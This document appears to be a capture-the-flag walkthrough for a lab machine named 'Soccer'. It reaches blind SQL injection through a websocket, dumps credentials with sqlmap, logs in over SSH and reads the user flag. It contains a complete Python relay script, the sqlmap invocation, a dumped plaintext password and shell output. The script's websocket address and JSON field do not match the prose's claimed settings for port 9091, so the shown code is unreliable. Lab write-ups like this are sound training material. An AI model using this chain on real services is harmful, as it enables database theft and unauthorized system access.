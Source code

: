 1) Browse to `http://soc-player.soccer.htb/signup` and create an account, then login.
2) After login, you are presented with the page `http://soc-player.soccer.htb/check`. There is a ticket checking mechanism where you can search for a ticket. Inspecting the html source found that this feature connects to a websocket
```js
  var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
```

3)  there could be a sqli vulnerability. Search online for `sqli websocket` lead to this post:
[https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

4) we can use the python script in the post as a proxy that forwards sqlmap requests to localhost:8081 (as it’s defined in the python script) to the target host’s websocket port 9091. To make our setup work, we need to change the script with the following settings

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://localhost:8156/ws"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"employeeID":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

5) Save the script as `sqli.py`, to exploit
6) I use the exploit with sqlmap:
```
# terminal 1
┌──(kali㉿kali)-[~]
└─$  python3 sqli.py
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*

# terminal 2
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://localhost:8081/?id=1" -p "id"

```

7) After a very long time, I have get the username and password:
```
[04:40:38] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable

+------+-------------------+----------+----------------------+
| id   | email             | username | password             |
+------+-------------------+----------+----------------------+
| 1324 | player@player.htb | player   | PlayerOftheMatch2022 |
+------+-------------------+----------+----------------------+
```

8) Login via ssh :
```
┌──(kali㉿kali)-[~]
└─$ ssh player@soccer.htb                          
The authenticity of host 'soccer.htb (10.10.11.194)' can't be established.
ED25519 key fingerprint is SHA256:PxRZkGxbqpmtATcgie2b7E8Sj3pw1L5jMEqe77Ob3FE.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes 
Warning: Permanently added 'soccer.htb' (ED25519) to the list of known hosts.
player@soccer.htb's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Dec 22 15:21:35 UTC 2022

  System load:           0.01
  Usage of /:            70.4% of 3.84GB
  Memory usage:          26%
  Swap usage:            0%
  Processes:             256
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.194
  IPv6 address for eth0: dead:beef::250:56ff:feb9:c369

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Dec 22 15:03:50 2022 from 10.10.14.2
player@soccer:~$ 
```

9) I read the user.txt:
```
player@soccer:~$ ls -all
total 40
drwxr-xr-x 6 player player 4096 Dec 22 15:15 .
drwxr-xr-x 3 root   root   4096 Nov 17 09:25 ..
lrwxrwxrwx 1 root   root      9 Nov 17 09:02 .bash_history -> /dev/null
-rw-r--r-- 1 player player  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 player player 3771 Feb 25  2020 .bashrc
drwx------ 2 player player 4096 Nov 17 09:00 .cache
drwx------ 3 player player 4096 Dec 22 15:15 .config
drwx------ 3 player player 4096 Dec 22 15:06 .gnupg
-rw-r--r-- 1 player player  807 Feb 25  2020 .profile
lrwxrwxrwx 1 root   root      9 Nov 17 09:02 .viminfo -> /dev/null
drwx------ 3 player player 4096 Dec 22 15:06 snap
-rw-r----- 1 root   player   33 Dec 22 15:02 user.txt
player@soccer:~$ cat user.txt
783437ebf064d93fcf9bb1d353fa7d72
player@soccer:~$ 
```
